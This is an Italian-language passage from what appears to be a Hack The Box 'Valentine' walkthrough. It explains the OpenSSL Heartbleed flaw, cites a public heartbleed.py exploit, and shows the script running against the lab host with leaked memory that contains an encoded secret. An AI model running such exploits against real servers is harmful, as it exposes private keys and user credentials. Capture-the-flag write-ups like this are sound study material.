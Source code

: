 ```bash
| ssl-heartbleed: 
|   VULNERABLE:
|   The Heartbleed Bug is a serious vulnerability in the popular OpenSSL cryptographic software library. It allows for stealing information intended to be protected by SSL/TLS encryption.
|     State: VULNERABLE
|     Risk factor: High
|       OpenSSL versions 1.0.1 and 1.0.2-beta releases (including 1.0.1f and 1.0.2-beta1) of OpenSSL are affected by the Heartbleed bug. The bug allows for reading memory of systems protected by the vulnerable OpenSSL versions and could allow for disclosure of otherwise encrypted confidential information as well as the encryption keys themselves.
```

Abbiamo un indizio **HEARTBLEED**

La vulnerabilità è stata introdotta in seguito all’implementazione dell’estensione Heartbeat per alcuni protocolli usati da OpenSSL. 
Hearbeat evita di dover rinegoziare ogni volta la connessione sicura tra client e server,
mantenendo vivi i collegamenti grazie a richieste effettuate a intervalli regolari;
in particolare il client invia una stringa al server e quest’ultimo la spedisce come risposta al client stesso.

Il bug consente a un utente malintenzionato di leggere fino a 64 KB di memoria dal sistema vulnerabile, con la possibilità di compromettere le chiavi segrete utilizzate per identificare i fornitori dei servizi e per crittografare il traffico, i nomi e le password degli utenti. Ciò consente agli aggressori di spiare le comunicazioni, di impersonare o rubare i dati direttamente dai servizi e dagli utenti.
Un attacco che sfrutta questa falla non lascia traccia e può essere portato a termine senza l’utilizzo di credenziali né, di particolari privilegi.

A questo indirizzo troviamo lo script 
https://gist.github.com/eelsivart/10174134#file-heartbleed-py-L8

Una volata lanciato lo script,riusciamo ad estrapolare questi dati dal server

```bash
┌──(root㉿kali)-[/home/kali/htb/valentine]
└─# python2 heartbleed.py -p 443 -n 10 10.10.10.79 
##################################################################
Connecting to: 10.10.10.79:443, 1 times
Sending Client Hello for TLSv1.0
Received Server Hello for TLSv1.0

WARNING: 10.10.10.79:443 returned more data than it should - server is vulnerable!
Please wait... connection attempt 1 of 1
##################################################################

.@....SC[...r....+..H...9...
....w.3....f...
...!.9.8.........5...............
.........3.2.....E.D...../...A.................................I.........
...........
...................................#.......0.0.1/decode.php
Content-Type: application/x-www-form-urlencoded
Content-Length: 42

$text=aGVhcnRibGVlZGJlbGlldmV0aGVoeXBlCg==8....=...P '{..m$C.3
```
